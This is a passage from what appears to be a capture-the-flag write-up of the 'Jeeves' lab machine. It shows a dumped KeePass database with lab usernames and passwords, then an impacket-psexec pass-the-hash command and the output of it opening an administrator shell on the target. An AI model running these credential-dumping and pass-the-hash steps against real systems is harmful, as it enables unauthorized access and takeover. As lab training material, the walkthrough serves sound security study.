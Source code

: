 kpcli:/CEH> show -f 3

Title: EC-Council
Uname: hackerman123
 Pass: pwndyouall!
  URL: https://www.eccouncil.org/programs/certified-ethical-hacker-ceh
Notes: Personal login

kpcli:/CEH> show -f 4

Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes: 

kpcli:/CEH> show -f 5

Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable! 

kpcli:/CEH> show -f 6

Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes: 

kpcli:/CEH> show -f 7

Title: Walmart.com
Uname: anonymous
 Pass: Password
  URL: http://www.walmart.com
Notes: Getting my shopping on
```

None of the passwords worked, so I tried a pass-the-hash attack using the hash in entry 0 and gained access to the Administrator account. 

![Pass-the-hash](/img/jeeves/pwned.png)

And with that, Jeeves is owned.

```
┌──(kali㉿kali)-[/tmp]
└─$ impacket-psexec Administrator@10.10.10.63 -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file EXTSwcYV.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service ShHJ on 10.10.10.63.....
[*] Starting service ShHJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.
